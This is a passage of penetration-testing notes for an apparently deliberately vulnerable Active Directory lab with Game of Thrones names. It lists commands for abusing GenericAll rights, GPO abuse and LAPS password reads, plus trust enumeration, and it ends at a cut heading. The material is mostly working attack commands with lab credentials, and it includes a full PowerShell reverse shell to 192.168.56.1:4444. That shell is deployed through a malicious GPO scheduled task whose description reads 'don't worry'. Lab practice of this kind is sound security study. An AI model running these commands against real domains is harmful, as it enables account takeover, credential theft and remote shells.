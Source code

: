 ## Generic all on user
`net rpc password stannis.baratheon --pw-nt-hash -U sevenkingdoms.local/tyron.lannister%b3b3717f7d51b37fb325f7e7d048e998 -S kingslanding.sevenkingdoms.local`

## GenericAll on Computer
Use Resource Based Constrained Delegation 

## GPO abuse
```
git clone https://github.com/Hackndo/pyGPOAbuse.git
python3 -m virtualenv .venv
source .venv/bin/activate
python3 -m pip install -r requirements.txt

#We get the id from bloodhound and launch the exploit
python3 pygpoabuse.py north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -gpo-id "6F8BD644-2C29-418C-93F1-FE926F91F6B4"

python3 pygpoabuse.py north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -gpo-id "6F8BD644-2C29-418C-93F1-FE926F91F6B4" -powershell -command "\$c = New-Object System.Net.Sockets.TCPClient('192.168.56.1',4444);\$s = \$c.GetStream();[byte[]]\$b = 0..65535|%{0};while((\$i = \$s.Read(\$b, 0, \$b.Length)) -ne 0){    \$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$b,0, \$i);    \$sb = (iex \$d 2>&1 | Out-String );    \$sb = ([text.encoding]::ASCII).GetBytes(\$sb + 'ps> ');    \$s.Write(\$sb,0,\$sb.Length);    \$s.Flush()};\$c.Close()" -taskname "MyTask" -description "don't worry"

# wait or run on the target host the following
gpudate /force
```

## Laps password
```
Get-DomainComputer | where-Object {$_.'ms-mcs-admpwd'} | select dnshostname, ms-mcs-admpwd | ft
cme ldap 192.168.56.12 -d essos.local -u jorah.mormont -p 'H0nnor!' --module laps
```

# Trusts

## Enumerate Trust
```
ldeep ldap -u tywin.lannister -p 'powerkingftw135' -d sevenkingdoms.local -s ldap://192.168.56.10 trusts
ldeep ldap -u tywin.lannister -p 'powerkingftw135' -d sevenkingdoms.local -s ldap://192.168.56.12 trusts
```

## Domain Trust - child/parent (north.sevenkingdoms.local -> sevenkingdoms.local)
